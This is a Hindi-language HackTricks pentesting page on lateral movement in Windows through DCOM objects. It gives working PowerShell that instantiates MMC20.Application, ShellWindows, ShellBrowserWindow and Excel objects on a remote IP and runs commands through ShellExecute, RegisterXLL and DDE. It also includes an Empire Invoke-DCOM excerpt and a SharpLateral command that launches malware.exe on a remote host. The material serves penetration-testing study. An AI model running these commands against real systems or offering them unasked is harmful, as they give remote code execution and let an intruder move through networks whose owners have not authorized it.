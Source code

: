 # DCOM Exec

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे**? या क्या आप **PEASS के नवीनतम संस्करण तक पहुँचना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* **[**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) में शामिल हों या [**telegram समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **hacktricks repo** और **hacktricks-cloud repo** में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें..

</details>

<figure><img src="../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

अपनी तकनीकी स्टैक में, APIs से लेकर वेब ऐप्स और क्लाउड सिस्टम्स तक, सबसे महत्वपूर्ण कमजोरियों को खोजें ताकि आप उन्हें तेजी से ठीक कर सकें। Intruder आपकी अटैक सरफेस को ट्रैक करता है, सक्रिय खतरा स्कैन चलाता है, और आपके पूरे तकनीकी स्टैक में मुद्दों को ढूंढता है। आज ही [**मुफ्त में इसे आजमाएं**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

***

## MMC20.Application

**DCOM** (Distributed Component Object Model) ऑब्जेक्ट्स **रोचक** होते हैं क्योंकि आप नेटवर्क के जरिए ऑब्जेक्ट्स के साथ **इंटरैक्ट** कर सकते हैं। Microsoft का DCOM पर कुछ अच्छा दस्तावेज़ीकरण [यहाँ](https://msdn.microsoft.com/en-us/library/cc226801.aspx) और COM पर [यहाँ](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx) है। आप PowerShell का उपयोग करके `Get-CimInstance Win32_DCOMApplication` चलाकर DCOM एप्लिकेशन्स की एक मजबूत सूची पा सकते हैं।

[MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx) COM ऑब्जेक्ट आपको MMC स्नैप-इन ऑपरेशन्स के घटकों को स्क्रिप्ट करने की अनुमति देता है। इस COM ऑब्जेक्ट के भिन्न मेथड्स और प्रॉपर्टीज को सूचीबद्ध करते समय, मैंने देखा कि Document.ActiveView के अंतर्गत `ExecuteShellCommand` नामक एक मेथड है।

![](<../../.gitbook/assets/image (4) (2) (1) (1).png>)

उस मेथड के बारे में और पढ़ें [यहाँ](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx)। अब तक, हमारे पास एक DCOM एप्लिकेशन है जिसे हम नेटवर्क के जरिए एक्सेस कर सकते हैं और कमांड्स निष्पादित कर सकते हैं। अंतिम भाग यह है कि इस DCOM एप्लिकेशन और ExecuteShellCommand मेथड का लाभ उठाकर एक दूरस्थ होस्ट पर कोड निष्पादन प्राप्त करना है।

सौभाग्य से, एक एडमिन के रूप में, आप PowerShell का उपयोग करके DCOM के साथ दूरस्थ रूप से इंटरैक्ट कर सकते हैं, “`[activator]::CreateInstance([type]::GetTypeFromProgID`” का उपयोग करके। आपको बस एक DCOM ProgID और एक IP पता प्रदान करना होगा। फिर यह आपको उस COM ऑब्जेक्ट का एक इंस्टेंस दूरस्थ रूप से प्रदान करेगा:

![](<../../.gitbook/assets/image (665).png>)

फिर दूरस्थ होस्ट पर एक प्रक्रिया शुरू करने के लिए `ExecuteShellCommand` मेथड को आमंत्रित करना संभव है:

![](<../../.gitbook/assets/image (1) (4) (1).png>)

## ShellWindows & ShellBrowserWindow

**MMC20.Application** ऑब्जेक्ट में स्पष्ट "[LaunchPermissions](https://technet.microsoft.com/en-us/library/bb633148.aspx)" की कमी थी, जिसके परिणामस्वरूप डिफ़ॉल्ट अनुमति सेट एडमिनिस्ट्रेटर्स को पहुँच प्रदान करती है:

![](<../../.gitbook/assets/image (4) (1) (2).png>)

उस थ्रेड के बारे में और पढ़ें [यहाँ](https://twitter.com/tiraniddo/status/817532039771525120).\
जिन अन्य ऑब्जेक्ट्स में स्पष्ट LaunchPermission सेट नहीं है, उन्हें देखना [@tiraniddo](https://twitter.com/tiraniddo) के [OleView .NET](https://github.com/tyranid/oleviewdotnet) का उपयोग करके हासिल किया जा सकता है, जिसमें उत्कृष्ट Python फिल्टर्स (अन्य चीजों के बीच) हैं। इस उदाहरण में, हम सभी ऑब्जेक्ट्स को फिल्टर कर सकते हैं जिनमें स्पष्ट Launch Permission नहीं है। ऐसा करने पर, मुझे दो ऑब्जेक्ट्स खास तौर पर ध्यान में आए: `ShellBrowserWindow` और `ShellWindows`:

![](<../../.gitbook/assets/image (3) (1) (1) (2).png>)

संभावित लक्ष्य ऑब्जेक्ट्स की पहचान करने का एक और तरीका `HKCR:\AppID\{guid}` में कीज़ से `LaunchPermission` मान की अनुपस्थिति को देखना है। Launch Permissions सेट के साथ एक ऑब्जेक्ट नीचे दिए गए अनुसार दिखाई देगा, जिसमें ऑब्जेक्ट के लिए ACL को बाइनरी प्रारूप में डेटा प्रतिनिधित्व करता है:

![](https://enigma0x3.files.wordpress.com/2017/01/launch\_permissions\_registry.png?w=690\&h=169)

जिनमें स्पष्ट LaunchPermission सेट नहीं है, उनमें वह विशेष रजिस्ट्री प्रविष्टि अनुपस्थित होगी।

### ShellWindows

पहला ऑब्जेक्ट जिसे खोजा गया था [ShellWindows](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773974\(v=vs.85\).aspx)। चूंकि इस ऑब्जेक्ट के साथ कोई [ProgID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms688254\(v=vs.85\).aspx) संबद्ध नहीं है, हम [Type.GetTypeFromCLSID](https://msdn.microsoft.com/en-us/library/system.type.gettypefromclsid\(v=vs.110\).aspx) .NET मेथड के साथ [Activator.CreateInstance](https://msdn.microsoft.com/en-us/library/system.activator.createinstance\(v=vs.110\).aspx) मेथड का उपयोग करके दूरस्थ होस्ट पर इस ऑब्जेक्ट को इंस्टेंट करने के लिए उसके AppID का उपयोग कर सकते हैं। इसके लिए हमें ShellWindows ऑब्जेक्ट के लिए [CLSID](https://msdn.microsoft.com/en-us/library/windows/desktop/ms691424\(v=vs.85\).aspx) प्राप्त करना होगा, जो OleView .NET का उपयोग करके हासिल किया जा सकता है:

![shellwindow\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellwindow\_classid.png?w=434\&h=424)

जैसा कि आप नीचे देख सकते हैं, "Launch Permission" फ़ील्ड खाली है, जिसका अर्थ है कि कोई स्पष्ट अनुमतियाँ सेट नहीं हैं।

![screen-shot-2017-01-23-at-4-12-24-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-12-24-pm.png?w=455\&h=401)

अब जब हमारे पास CLSID है, हम दूरस्थ लक्ष्य पर ऑब्जेक्ट को इंस्टेंट कर सकते हैं:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>") #9BA05972-F6A8-11CF-A442-00A0C90A8F39
$obj = [System.Activator]::CreateInstance($com)
```
![](https://enigma0x3.files.wordpress.com/2017/01/remote_instantiation_shellwindows.png?w=690&h=354)

जब ऑब्जेक्ट रिमोट होस्ट पर इंस्टैंटिएट हो जाता है, हम उसके साथ इंटरफेस कर सकते हैं और जो भी मेथड्स हम चाहें उन्हें इन्वोक कर सकते हैं। ऑब्जेक्ट के लिए वापस आया हैंडल कई मेथड्स और प्रॉपर्टीज को प्रकट करता है, जिनमें से किसी के साथ भी हम इंटरैक्ट नहीं कर सकते। रिमोट होस्ट के साथ वास्तविक इंटरैक्शन प्राप्त करने के लिए, हमें [WindowsShell.Item](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773970\(v=vs.85\).aspx) मेथड तक पहुँचने की आवश्यकता है, जो हमें एक ऑब्जेक्ट वापस देगा जो विंडोज शेल विंडो का प्रतिनिधित्व करता है:
```
$item = $obj.Item()
```
```markdown
![](https://enigma0x3.files.wordpress.com/2017/01/item_instantiation.png?w=416&h=465)

Shell Window पर पूरी पकड़ होने के साथ, हम अब सभी अपेक्षित विधियों/गुणों तक पहुँच सकते हैं जो उजागर किए गए हैं। इन विधियों को देखने के बाद, **`Document.Application.ShellExecute`** ने ध्यान खींचा। इस विधि के लिए पैरामीटर आवश्यकताओं का पालन करना सुनिश्चित करें, जो [यहाँ](https://msdn.microsoft.com/en-us/library/windows/desktop/gg537745(v=vs.85).aspx) दस्तावेज़ीकृत हैं।
```
```powershell
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
जैसा कि आप ऊपर देख सकते हैं, हमारा कमांड एक दूरस्थ होस्ट पर सफलतापूर्वक निष्पादित हुआ।

### ShellBrowserWindow

यह विशेष ऑब्जेक्ट Windows 7 पर मौजूद नहीं है, जिससे इसका उपयोग लेटरल मूवमेंट के लिए "ShellWindows" ऑब्जेक्ट की तुलना में थोड़ा सीमित हो जाता है, जिसे मैंने Win7-Win10 पर सफलतापूर्वक परीक्षण किया।

इस ऑब्जेक्ट के मेरे अनुसंधान के आधार पर, यह प्रभावी रूप से एक्सप्लोरर विंडो में एक इंटरफेस प्रदान करता है जैसे कि पिछला ऑब्जेक्ट करता है। इस ऑब्जेक्ट को इंस्टेंटिएट करने के लिए, हमें इसके CLSID की आवश्यकता होती है। ऊपर की तरह, हम OleView .NET का उपयोग कर सकते हैं:

![shellbrowser\_classid](https://enigma0x3.files.wordpress.com/2017/01/shellbrowser\_classid.png?w=428\&h=414)

फिर से, खाली Launch Permission फील्ड का ध्यान रखें:

![screen-shot-2017-01-23-at-4-13-52-pm](https://enigma0x3.files.wordpress.com/2017/01/screen-shot-2017-01-23-at-4-13-52-pm.png?w=399\&h=340)

CLSID के साथ, हम पिछले ऑब्जेक्ट पर किए गए चरणों को दोहरा सकते हैं ताकि ऑब्जेक्ट को इंस्टेंटिएट किया जा सके और वही मेथड कॉल किया जा सके:
```powershell
$com = [Type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880", "<IP>")
$obj = [System.Activator]::CreateInstance($com)

$obj.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "C:\Windows\system32", $null, 0)
```
जैसा कि आप देख सकते हैं, कमांड ने रिमोट टारगेट पर सफलतापूर्वक निष्पादित किया।

चूंकि यह ऑब्जेक्ट सीधे Windows शेल के साथ इंटरफेस करता है, हमें "ShellWindows.Item" मेथड को इन्वोक करने की आवश्यकता नहीं है, जैसा कि पिछले ऑब्जेक्ट पर था।

जबकि ये दो DCOM ऑब्जेक्ट्स रिमोट होस्ट पर शेल कमांड्स चलाने के लिए इस्तेमाल किए जा सकते हैं, बहुत सारे अन्य दिलचस्प मेथड्स हैं जिनका इस्तेमाल रिमोट टारगेट को एन्युमरेट या टैम्पर करने के लिए किया जा सकता है। इन मेथड्स में से कुछ शामिल हैं:

* `Document.Application.ServiceStart()`
* `Document.Application.ServiceStop()`
* `Document.Application.IsServiceRunning()`
* `Document.Application.ShutDownWindows()`
* `Document.Application.GetSystemInformation()`

## ExcelDDE & RegisterXLL

इसी तरह की तरीके से DCOM Excel ऑब्जेक्ट्स का दुरुपयोग करके लेटरल मूवमेंट किया जा सकता है, अधिक जानकारी के लिए पढ़ें [https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom)
```powershell
# Chunk of code from https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1
## You can see here how to abuse excel for RCE
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
## स्वचालित उपकरण

* Powershell स्क्रिप्ट [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) अन्य मशीनों में कोड निष्पादित करने के सभी टिप्पणी किए गए तरीकों को आसानी से आमंत्रित करने की अनुमति देता है।
* आप [**SharpLateral**](https://github.com/mertdas/SharpLateral) का भी उपयोग कर सकते हैं:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## संदर्भ

* पहली विधि की प्रतिलिपि [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/) से ली गई है, अधिक जानकारी के लिए लिंक का अनुसरण करें
* दूसरे खंड की प्रतिलिपि [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/) से ली गई है, अधिक जानकारी के लिए लिंक का अनुसरण करें

<figure><img src="../../.gitbook/assets/image (675).png" alt=""><figcaption></figcaption></figure>

सबसे महत्वपूर्ण कमजोरियों को खोजें ताकि आप उन्हें तेजी से ठीक कर सकें। Intruder आपकी हमले की सतह को ट्रैक करता है, सक्रिय खतरे के स्कैन चलाता है, आपके पूरे तकनीकी स्टैक में मुद्दों को खोजता है, APIs से लेकर वेब ऐप्स और क्लाउड सिस्टम्स तक। आज ही [**मुफ्त में इसे आजमाएं**](https://www.intruder.io/?utm\_source=referral\&utm\_campaign=hacktricks)।

{% embed url="https://www.intruder.io/?utm_campaign=hacktricks&utm_source=referral" %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें शून्य से लेकर हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) में शामिल हों या मुझे **Twitter** 🐦 पर **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
